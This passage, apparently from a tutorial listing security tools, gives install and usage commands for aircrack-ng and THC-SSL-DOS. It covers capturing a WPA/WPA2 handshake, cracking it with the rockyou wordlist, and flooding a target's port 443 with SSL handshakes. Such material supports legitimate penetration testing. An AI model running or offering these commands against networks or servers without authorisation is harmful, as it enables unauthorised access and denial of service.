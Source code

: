 #### Key Features:
- Specifically targets wireless networks.
- Can capture and analyze network packets.
- Cracks WPA/WPA2 handshakes using dictionary attacks.

#### Installation:
```bash
sudo apt-get install aircrack-ng -y
```

#### Usage Example:
**Cracking WPA/WPA2 Wi-Fi**
1. Capture packets using `airodump-ng`:
   ```bash
   airodump-ng wlan0
   ```
2. Save the handshake:
   ```bash
   airodump-ng -c <channel> --bssid <target_bssid> -w handshake wlan0
   ```
3. Crack the password:
   ```bash
   aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <target_bssid> handshake-01.cap
   ```

---

### **7. THC-SSL-DOS**
Although not specifically a brute-forcing tool for credentials, **THC-SSL-DOS** is worth mentioning because it brute-forces SSL/TLS handshakes to simulate denial-of-service attacks.

#### Key Features:
- Targets SSL/TLS encryption by overwhelming the server with handshake requests.
- Useful for testing server resilience under stress.

#### Installation:
```bash
git clone https://github.com/vanhauser-thc/thc-ssl-dos.git
cd thc-ssl-dos
make
```

#### Usage Example:
```bash
./thc-ssl-dos <target_ip> 443
```

---

